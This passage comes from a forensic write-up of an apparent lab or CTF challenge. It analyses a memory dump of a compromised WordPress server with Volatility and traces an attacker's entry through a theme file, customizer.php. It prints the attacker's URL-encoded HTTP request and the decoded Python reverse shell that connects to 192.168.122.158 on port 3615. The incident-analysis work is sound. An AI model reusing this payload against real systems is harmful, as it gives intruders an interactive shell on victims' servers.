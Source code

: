 We can notice something really strange, it could be dangerous:

```bash
$ vol.py --plugins=../plug_vol/ --profile=LinuxOdie_profilex64 -f memory.dmp linux_proc_maps -p 21733 > papache_customizerphp
$ cat papache_customizerphp| grep 7f0733fb        
0xffff9796baa41000    21733 apache2              0x00007f0733fae000 0x00007f0733fb4000 rw-                   0x0      0      0          0 
0xffff9796baa41000    21733 apache2              0x00007f0733fb4000 0x00007f0733fc4000 rwx                   0x0      0      0          0 
$ vol.py --plugins=../plug_vol/ --profile=LinuxOdie_profilex64 -f memory.dmp linux_dump_map -s 0x00007f0733fae000 -p 21733 -D .
Volatility Foundation Volatility Framework 2.6.1
Task       VM Start           VM End                         Length Path
---------- ------------------ ------------------ ------------------ ----
     21733 0x00007f0733fae000 0x00007f0733fb4000             0x6000 ./task.21733.0x7f0733fae000.vma
$ strings ./task.21733.0x7f0733fae000.vma | grep customizer.php
band/inc/customizer.php47
51%\GET /wp-content/themes/rock-band/inc/customizer.php?x=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.122.158%22,3615));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1
192.168.122.158 - - [27/Dec/2018:21:08:21 +0100] "GET /wp-content/themes/rock-band/inc/customizer.php?x=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.122.158%22,3615));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1" 500 185 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0"
```

After URL decoding the data (thanks CyberChef), beautify the python code, it looks to:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.122.158",3615))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

The code is explicit, it gives an interactive `/bin/sh` to the suspicious IP address (IP owns by Monique) through a network socket on TCP port 3615. I think we found the arbitrary code injected: command execution in PHP.

### Privilege escalation

We are starting to get a good look on actions made by Monique. However, there is something strange, what happened between the reverse shell and the backdoor? 

Monique got an access as __www-data__, not as __root__. She must be doing at least one privilege escalation.

In fact, we could stop the investigation here. We know where the backdoor is, we know where is the entry point. In principle, if we correct these issues, Monique will no longer be able to get access to the Odie's VPS. But we're here to learn things and have fun! Then let's going further!
